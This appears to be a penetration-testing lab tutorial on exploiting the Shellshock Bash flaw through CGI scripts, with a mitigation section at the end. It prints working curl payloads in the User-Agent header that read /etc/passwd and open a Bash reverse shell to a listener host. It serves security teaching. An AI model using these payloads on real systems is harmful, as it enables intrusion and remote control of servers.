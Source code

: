 ## Shellshock via CGI

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable. Let's look at a simple example where we define an environment variable and include a malicious command afterward.
```shell-session
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```
When the above variable is assigned, Bash will interpret the `y='() { :;};'` portion as a function definition for a variable `y`, it then exits with code 0 and prints vulnerable or not,
If the system is not vulnerable, only `"not vulnerable"` will be printed.
This behavior no longer occurs on a patched system, as Bash will not execute code after a function definition is imported. Furthermore, Bash will no longer interpret `y=() {...}` as a function definition. But rather, function definitions within environment variables must now be prefixed with `BASH_FUNC_`.a

## Enumeration - Gobuster

We can hunt for CGI scripts using a tool such as Gobuster. Here we find one, access.cgi.

`fuzzing for cgi-bin scripts`
```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

`checking the cgi script`
```shell-session
$ curl -i http://10.129.204.231/cgi-bin/access.cgi
```

To check for the vulnerability, we can use a simple cURL command or use Burp Suite Repeater or Intruder to fuzz the user-agent field. Here we can see that the contents of the /etc/passwd file are returned to us, thus confirming the vulnerability via the user-agent field.
Attacking Common Gateway Interface (CGI) Applications - Shellshock

`confirming the vulnerability`
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
```

#### Exploitation to Reverse Shell Access

Once the vulnerability has been confirmed, we can obtain reverse shell access in many ways. In this example, we use a simple Bash one-liner and get a callback on our Netcat listener.
`listener`
```shell-session
$ sudo nc -lvnp 7777
```

`send payload`
```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
From here, we could begin hunting for sensitive data or attempt to escalate privileges. During a network penetration test, we could try to use this host to pivot further into the internal network.

## Mitigation
he quickest way to remediate the vulnerability is to update the version of Bash on the affected system. This can be trickier on end-of-life Ubuntu/Debian systems, so a sysadmin may have first to upgrade the package manager. With certain systems (i.e., IoT devices that use CGI), upgrading may not be possible. In these cases, it would be best first to ensure the system is not exposed to the internet and then evaluate if the host can be decommissioned. If it is a critical host and the organization chooses to accept the risk, a temporary workaround could be firewalling off the host on the internal network as best as possible. Keep in mind that this is just putting a bandaid on a large wound, and the best course of action would be upgrading or taking the host offline.
